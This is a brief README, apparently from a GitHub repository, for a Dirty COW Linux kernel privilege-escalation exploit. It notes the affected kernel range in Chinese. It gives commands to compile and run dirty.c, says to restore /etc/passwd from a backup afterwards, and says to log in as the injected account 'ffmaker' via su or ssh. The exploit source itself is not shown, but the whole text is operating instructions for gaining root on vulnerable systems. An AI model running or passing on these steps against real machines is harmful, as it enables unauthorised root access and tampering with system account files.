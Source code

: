 # dirtycow
## 影响范围
Linux kernel>2.6.22

## 使用方式

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
 
**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Afterwards, you can either `su ffmaker` or `ssh ffmaker@...`
